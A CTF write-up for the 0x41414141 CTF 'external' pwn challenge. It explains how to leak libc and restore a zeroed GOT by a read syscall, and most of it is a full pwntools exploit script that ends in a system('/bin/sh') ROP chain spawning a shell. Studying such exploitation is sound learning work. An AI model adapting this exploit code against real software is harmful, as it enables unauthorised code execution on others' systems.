

## 0x41414141 CTF: external [pwn]

##### *tl;dr: fix the GOT then perform the usual ropchain*
#### I got stuck on this during the duration of the ctf and spent the last hour analyzing the exploit from team [5h4d0wb10k3r](https://nave1337.herokuapp.com/index.html#os2021_external) which I found to be more informative and intended way of solving the challenge. During the ctf, I was only able to get a leak with the pointer to IO_STDOUT stored in the .bss section but couldn't achieve a stage 2 rop after that.

#### The vulnerability for the challenge was a simple buffer overflow. But it's not so simple as the GOT table gets zeroed out and we can't use the functions (read, memset, puts, etc) anymore after. First step we need to do is get a libc leak using the write syscall stored in the binary, then perform a read syscall. The problem is, we don't have any way to set the rax register. Here is where a function gadget in init_proc comes to play; basically it moves the __gmon_start__ pointer into rax upon startup but since __gmon_start__ isn't used, the value passed into rax is 0. 

#### We then set the global offset table (static address) as the receiving buffer. Since we already have a libc leak earlier, we can just calculate the offsets and place their computed libc addresses into the GOT (which needs to be in order). After we reconstruct the global offset table, we loop back to main then repeat the overflow steps to perform a system('/bin/sh') ropchain.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./external', checksec = False)
#libc = ELF('./libc-2.28.so', checksec = False)
libc = ELF('./libc.so.6', checksec = False) #: USING LOCAL LIBC SINCE I'M TESTING LOCALLY

p = process('./external', env = {'LD_PRELOAD' : libc.path})
#p = remote("161.97.176.150", 9999)

#: GDB SETTINGS
breakpoints = ['break *main', 'break *clear_got', 'break *write_syscall']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION FUNCTIONS
syscall = 0x0000000000401283
pop_rsi_r15 = 0x00000000004012f1
pop_rdi = 0x00000000004012f3
bss = 0x404060
ret = 0x40101a
init_proc = 0x401008 #: USED TO SET RAX TO 0 SINCE _gmon_start ISNT USED

#: PWN THY VULNS
print(p.recvuntil('> '))

exploit = cyclic(88)
exploit += p64(ret)
exploit += p64(pop_rsi_r15)
exploit += p64(binary.got['__libc_start_main'])
exploit += 'ignoreme'
exploit += p64(pop_rdi)
exploit += p64(0x1)
exploit += p64(binary.symbols['write_syscall'])
exploit += p64(init_proc) #: READ SYSCALL
exploit += p64(0x1337)
exploit += p64(pop_rdi)
exploit += p64(0x0)
exploit += p64(pop_rsi_r15)
exploit += p64(binary.got['puts']) #: STORES THE NEXT PAYLOAD INTO THE GOT
exploit += 'ignoreme'
exploit += p64(syscall)
exploit += p64(binary.symbols['main']) #: RETURNS TO MAIN AFTER THE GOT TABLE HAS BEEN RESTORED
p.sendline(exploit)

#: get libc leak
libc_main = u64(p.recv(8))
libc_base = libc_main - libc.symbols['__libc_start_main']

log.info(hex(libc_main))
log.info(hex(libc_base))
print(p.recv(0x30))

#: RESTORE GLOBAL OFFSET TABLE
got_entries = ['puts', 'setvbuf', 'printf', 'memset', 'alarm', 'read', 'signal']
exploit = ''.join([p64(libc_base + libc.symbols[entry]) for entry in got_entries])
p.sendline(exploit)

#: FINAL PAYLOAD
exploit = cyclic(87)
exploit += p64(ret) #: PREVENT THE MOVAPS ISSUE
exploit += p64(pop_rdi)
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])

p.sendline(exploit)
p.interactive()
```

